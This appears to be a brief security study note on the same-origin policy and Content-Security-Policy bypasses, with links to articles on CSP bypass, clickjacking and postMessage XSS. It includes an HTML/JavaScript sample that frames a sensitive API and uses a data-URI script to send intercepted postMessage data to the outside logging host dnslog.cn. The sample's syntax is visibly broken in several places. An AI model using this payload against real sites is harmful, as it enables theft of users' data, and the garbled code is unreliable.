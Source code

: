 ## SOP
## CSP
Content-Security-Policy
- [Bypass of CSP](https://csplite.com/csp320/)
- data protocol allowed: xss by iframe, combining postMessage to steal info
```
<html>
<body>
<iframe id='attack' src="http"//get_method_api_response_contains_sensitive_info/api"></iframe>
<script type="text/javascript">

var frame = document.getElementById("attack");
frame.addEventListener("load", function(){
  setTimeout(sendInfo,600)}
  )
 
function getInfo{
var payload = btoa(<script>                     #data protocol
    window.addEventListener(
     function(event)
       {xhr = new XMLHttpRequest();
        xhr.open("GET","http://dnslog.cn?message="+ event.data);
        xhr.send(null)}
     )
}     

function sendInfo{
 frames[0].postMessage("")
}
</script>
</body>
</html>
```
- [ClickJacking](https://resources.infosecinstitute.com/topic/bypassing-same-origin-policy-part-3-clickjacking-cursorjacking-filejacking/)
- [postMessage XSS on a million sites](https://labs.detectify.com/2016/12/15/postmessage-xss-on-a-million-sites/)

